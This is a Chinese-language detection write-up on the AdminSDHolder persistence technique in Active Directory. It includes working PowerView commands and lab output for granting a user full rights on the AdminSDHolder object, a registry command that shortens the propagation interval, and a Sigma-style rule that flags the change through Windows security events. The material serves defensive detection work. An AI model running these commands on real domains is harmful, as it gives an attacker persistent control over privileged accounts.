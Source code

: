 ```yaml
---
title: 检测AdminSDHolder攻击
date: 2020-04-12 21:21:21
tags: ATT&CK-持久性
---
```


## 来自ATT&CK的描述

帐户操作可以帮助攻击者维持在环境中对凭据和某些权限级别的访问。账户操作可能包括修改权限，修改凭据，添加或更改权限组，修改帐户设置或修改执行身份验证等方式。为了创建或操纵帐户，攻击者必须已经对系统或域具有足够的权限。

## 测试案例

AdminSDHolder是一个特殊的AD容器，具有一些默认安全权限，用作受保护的AD账户和组的模板。

Active Directory将采用AdminSDHolder对象的ACL并定期将其应用于所有受保护的AD账户和组，以防止意外和无意的修改并确保对这些对象的访问是安全的。

如果能够修改AdminSDHolder对象的ACL，那么修改的权限将自动应用于所有受保护的AD账户和组，这可以作为一个域环境权限维持的方法。

## 检测日志

windows 安全日志

## 测试复现

### 完整利用过程

1.枚举受保护的AD账户和组中的信息

查找有价值的用户，需要确认该用户是否属于受保护的AD账户和组，排除曾经属于受保护的AD账户和组。

2.向AdminSDHolder对象添加ACL

例如添加用户testa对AdminSDHolder的完全访问权限。

默认等待60分钟以后，testa获得对所有受保护的AD账户和组的完全访问权限。

可以通过修改注册表的方式设置权限推送的间隔时间，注册表位置如下：

```reg
HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\NTDS\Parameters,AdminSDProtectFrequency,REG_DWORD
```

例如修改成等待600秒的命令如下：

```reg
reg add hklm\SYSTEM\CurrentControlSet\Services\NTDS\Parameters/v AdminSDProtectFrequency /t REG_DWORD/d 600
```

参考资料：<https://blogs.technet.microsoft.com/askds/2009/05/07/five-common-questions-about-adminsdholder-and-sdprop/>

**注：不建议降低默认间隔时间，因为在大型环境中可能会导致LSASS性能下降。**

3.获得对整个域的控制权限

(1)用户testa能够向域管理员组添加帐户。

验证权限的命令如下：

```powershell
Import-Module .\PowerView.ps1
Get-ObjectAcl -SamAccountName "Domain Admins" -ResolveGUIDs | ?{$_.IdentityReference-match'xiaomi'}
```

(2)用户testa能够直接访问域控制器上的文件。

### 测试过程

1.查询AdminSDHolder对象的ACL
查询AdminSDHolder对象的ACL等价于查询"CN=AdminSDHolder,CN=System,DC=xiaomi,DC=org"的ACL。

命令如下：

```powershell
Import-Module .\PowerView.ps1
Get-ObjectAcl -ADSprefix "CN=AdminSDHolder,CN=System"|select IdentityReference
```

真实测试情况

```powershell
PS C:\Users\Administrator\Desktop\mimikatz_trunk> Import-Module .\PowerView.ps1
PS C:\Users\Administrator\Desktop\mimikatz_trunk> Get-ObjectAcl -ADSprefix "CN=AdminSDHolder,CN=System"|select IdentityR
eference

IdentityReference
-----------------
NT AUTHORITY\Authenticated Users
NT AUTHORITY\SYSTEM
BUILTIN\Administrators
XIAOMI\Domain Admins
XIAOMI\Enterprise Admins
Everyone
NT AUTHORITY\SELF
NT AUTHORITY\SELF
BUILTIN\Pre-Windows 2000 Compatible Access
BUILTIN\Pre-Windows 2000 Compatible Access
BUILTIN\Pre-Windows 2000 Compatible Access
BUILTIN\Pre-Windows 2000 Compatible Access
BUILTIN\Pre-Windows 2000 Compatible Access
BUILTIN\Pre-Windows 2000 Compatible Access
BUILTIN\Pre-Windows 2000 Compatible Access
BUILTIN\Pre-Windows 2000 Compatible Access
BUILTIN\Pre-Windows 2000 Compatible Access
BUILTIN\Pre-Windows 2000 Compatible Access
BUILTIN\Pre-Windows 2000 Compatible Access
BUILTIN\Windows Authorization Access Group
BUILTIN\Terminal Server License Servers
BUILTIN\Terminal Server License Servers
XIAOMI\Cert Publishers
```

2.向AdminSDHolder对象添加ACL

添加用户xiaomi的完全访问权限，命令如下：

```powershell
Import-Module .\PowerView.ps1
Add-ObjectAcl -TargetADSprefix 'CN=AdminSDHolder,CN=System' -PrincipalSamAccountName xiaomi -Verbose -Rights All
```

**注意:本文提到的百度社区参考链接此处存在问题。是Rights不是文中提到的Right**

真实测试情况

```powershell
PS C:\Users\Administrator\Desktop\mimikatz_trunk> Add-ObjectAcl -TargetADSprefix 'CN=AdminSDHolder,CN=System' -Principal
SamAccountName xiaomi -Verbose -Rights All
详细信息: Get-DomainSearcher search string: LDAP://CN=AdminSDHolder,CN=System,DC=xiaomi,DC=org
详细信息: Get-DomainSearcher search string: LDAP://DC=xiaomi,DC=org
详细信息: Granting principal S-1-5-21-3576461989-1381017913-248049510-1104 'All' on
CN=AdminSDHolder,CN=System,DC=xiaomi,DC=org
详细信息: Granting principal S-1-5-21-3576461989-1381017913-248049510-1104 '00000000-0000-0000-0000-000000000000'
rights on CN=AdminSDHolder,CN=System,DC=xiaomi,DC=org
```

3.验证用户权限

等待六十分钟后，执行以下命令查询用户xiaomi的权限：

```powershell
Import-Module .\PowerView.ps1
Get-ObjectAcl -SamAccountName "Domain Admins" -ResolveGUIDs | ?{$_.IdentityReference-match'xiaomi'}
OR
Get-ObjectAcl -SamAccountName "Domain Admins" -ResolveGUIDs | select IdentityReference
```

4.删除AdminSDHolder中指定用户的ACL

搜索条件为"LDAP://CN=AdminSDHolder,CN=System,DC=test,DC=com"

删除用户xiaomi的完全访问权限，命令如下（执行失败）：

```powershell
Remove-DomainObjectAcl -TargetSearchBase "LDAP://CN=AdminSDHolder,CN=System,DC=xiaomi,DC=org" -PrincipalIdentity xiaomi -Rights All -Verbose
```

## 测试留痕

windows安全日志

## 检测规则/思路

```yml
title: Windows-AdminSDHolder
description: Windows server 2008 R2（AD域控）
references: https://github.com/infosecn1nja/AD-Attack-Defense/blob/master/README.md OR https://github.com/0Kee-Team/WatchAD/blob/master/modules/detect/event_log/persistence/AdminSDHolder.py
tags: 1098
status: experimental
author: 12306Bro
logsource:
    product: windows
    service: security
detection:
    selection1:
        EventID: 5136  #已修改目录服务对象。AdminSDHolder更改，一般用作权限维持，因为更改情况极少
    selection2:
        EventID: 4780  #ACL设置在管理员组成员的帐户上
    timeframe: last 1h #默认等待60分钟之后生效，具体原因可参考下面SDPROP说明
    condition: all of them
level: medium
```

## 参考推荐

域渗透——AdminSDHolder:<https://anquan.baidu.com/article/877>

PowerView:<https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1>

SDPROP说明:<https://xz.aliyun.com/t/7276>

MITRE-ATT&CK-T1098:<https://attack.mitre.org/techniques/T1098/>
